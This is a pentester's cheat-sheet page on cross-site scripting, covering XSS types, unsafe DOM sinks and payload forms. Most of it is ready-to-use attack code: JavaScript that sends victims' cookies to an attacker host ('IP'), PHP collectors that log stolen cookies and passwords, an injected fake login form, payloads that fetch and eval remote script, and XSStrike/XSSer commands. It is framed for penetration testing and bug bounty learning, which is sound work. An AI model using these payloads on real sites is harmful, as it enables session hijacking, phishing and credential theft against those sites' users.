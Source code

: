 ```yaml
---
title: Cross-Site Scripting (XSS)
author:
  name: kill5witch
  link: https://github.com/an9k0r
date: 2022-09-03 09:00:00 +0200
categories: [Web Application, Cross Site Scripting (XSS)]
tags: [Notes, Web Application, Cross-Site Scripting]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Basics
Cross-Site Scripting (XSS) is an attack where user controlled input gets executed on the victims client.
There are 3 main types of XSS:
    - Stored XSS (Gets stored in the Backend and usually persists over sessions)
    - Reflected gets passed to the beckend and executes the script on the client
    - DOM gets executed on the client only

XSS could also be blind which means while testing we might not see vulnerability right away. It is something to keep in mind, perhaps use payload which sends an callback to "our"/"testing" server.

Most commonly used JS functions that write to DOM object and where direct users input should be sanitized are:

- document.write()
- DOM.innerHTML
- DOM.outerHTML
- ...

jQuery functions:

- add()
- after()
- append()
- ...

Payload would usualy be formed like this:
```
- <script></script> tag
- JS Event Handlers like <img onload="">
- Using something like: javascript: url
- using eval function
- ...
```

Sometimes Payload needs to escape the intended function, usualy using something like this:

- `'>`
- `">`

Something handy for PenTesters/Bounty Hunters are Polyglot functions which incorporate different bypasses in single payload. Do have a look here: https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot


## Cookie Stealer
```javascript
document.location='http://IP/index.php?c='+document.cookie;
new Image().src='http://IP/index.php?c='+document.cookie;
```

### Simple PHP Server that goes along
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

# Scripts
## Phishing HTML Form One-Liner
```javascript
document.write('<h3>Please login to continue</h3><form action=http://IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

### Simple PHP Server to go along
Checking access log or having netcat would also work. Running simple server that logs callbacks is however very neat.
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("credentials.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVERS_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
Save as php file and run it with `php -S x.x.x.x:PORT`

# More advanced payloads
Script will be loaded remotely
```
s = document.createElement("script")
s.src = "https://IP/payload.js"
document.body.appendChild(s)

fetch("https://IP/payload.js").then(r=>r.text()).then(t=>eval(t))

// either use decode base64 or eval on normal payload.
eval(atob(location.hash.substr(1)))
```

# Tools

## XSSStrike
```shell-session
python3 xsstrike.py -u "http://IP/?fullname=asd&username=asd&password=asd&email=XSS"
```

## XSSer
```
xsser -u http://IP -g "/?fullname=asd&username=asd&password=asd&email=XSS" --auto
```

# References

- https://academy.hackthebox.eu (awesome resource with many great and to-the-point labs.)
- YesWeHack Dojo: https://dojo-yeswehack.com/XSS/Theory
- PortSwigger Web Academy: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

